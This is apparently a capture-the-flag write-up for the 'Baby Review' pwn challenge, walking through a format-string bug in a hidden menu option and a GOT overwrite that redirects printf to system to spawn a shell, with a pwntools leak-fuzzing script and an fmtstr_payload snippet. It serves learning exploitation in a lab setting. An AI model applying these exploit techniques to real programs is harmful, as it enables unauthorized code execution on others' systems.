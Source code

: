 # Baby Review

# Challenge

I've created a fun program for you to review your favorite movies and books. Can you figure out the problem with it?

# Solution
We are given a binary. ```file``` gives us the following info:
```baby-review: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c0f2ae97bc7bace37c862e0d5b2c18cb07494501, for GNU/Linux 4.4.0, not stripped```

Okay so a 64 bit non stripped binary. lets take a look.

```
❯ checksec baby-review
[*] '/home/pwn/ctf/damctf/pwn/babyreview/baby-review'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

The checksec tells us about the securities in place on this binary. as you can see we have No Canary token. and only partial RELRO

To work on this locally you first need a countries.txt file.
```echo "France,Paris" > countries.txt```

From running the binary it looks like we only have 4 options.

```
1. Read a book?
2. Watch a movie?
3. Review a book/movie
4. Exit
```

But after opening the file in Ghidra 

![](pics/1.png)

You can see we also have case 5. add_movie()

add_movie() lets us add our own movie to be displayed in the watch_movie() function.

![](pics/2.png)

Our input is passed into printf()

as my input is passed right into printf() we can use this to leak info. Lets give it a go.

![](pics/3.png)

and you can see, we are leaking addresses.

Because we can call printf with a format strings bug as many times as we want. I am going to use a GOT overwrite exploit. the GOT is the global offset table. The address of each function is held within the GOT. Format strings have an option to pass %n which lets us overwrite data. 
This blog post will explain it better than I will: https://axcheron.github.io/exploit-101-format-strings/

in this case, we want to replace the address of printf with the address of system. so the next time printf is called. it will call system instead. so we can than pass /bin/sh into system to spawn a shell.

So we need some addresses.

To do that. I have a fuzz script.

```
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF('./baby-review', checksec=False)
context.terminal = ['alacritty', '-e', 'zsh', '-c']

io = process(elf.path)

i = 1
while i <= 100:
    try:
        io = process(elf.path,level='error')
        io.sendlineafter(b'France?',b'Paris')
        io.sendlineafter(b'Exit',b'5')
        payload = f"%{i}$p"
        io.sendline(payload)
        io.sendlineafter(b'Exit',b'2')
        leak = io.recvlines(8)[6]
        print(f"Offset {i} has {leak}")
        i += 1
    except EOFError:
        pass
```

outputs:

![](pics/4.png)

So I have some address. the addresses that start with 0x7fxxxxxxxxxx are likely to be libc address. 0x56xxxxxxxx would be addresses of the binary. 

This part takes some trial and error. getting each address and checking inside GDB what its value is.

After trial and error. I found a good leak for the libc and the binary. the 29th offset and the 9th offset.

![](pics/5.png)

Inside GDB we can look up that this leak is.

![](pics/6.png)

this 29th offset will always leak '\_IO_2_1_stdout_'

So to find the base address of libc we just need to take away '\_IO_2_1_stdout_' from the leak

For the binary I take the leak and minus the base of the binary. This will give us the value that we need to take away from the leak each time to get the base address.

With the two base addresses obtained we just need two more bits of info to overwrite the GOT table. the address of printf in the binary and the address of system in the libc libary.

Because we have the base addresses we can use pwn tools to get these addresses easier.


```
elf.address = bin_main
libc.address = libc_main
```

first set the base address of the binary to our new found addresses.

```
printf_addr = elf.got.printf
libc_system = libc.symbols.system
```

now we have printf and system.

our payload will be as follows:
```
payload =  fmtstr_payload(10, {
    elf.got.printf : libc_system 
    }, write_size='short')
```

the offset of 10 is found from when our input is reflected back in the format strings bug. to find this I used the same fuzz script but added 8 A's to the start of my payload and looked for when 0x41 was reflected.

![](pics/7.png)

Sending that payload into the printf will overwrite the GOT table, replacing printf with system so the time time I printf is called, it will actually call system.

```
io.sendline(b'/bin/sh')
```

While the hidden 5th function is adding our payload into the variable that is called in printf, we need to actually make sure the printf function is called. so when exploiting this we need to first go into the 5th menu option and than the 2nd to trigger the payload.

Full script is found above.
(also added a way to get the capital right each time)

![](pics/8.png)
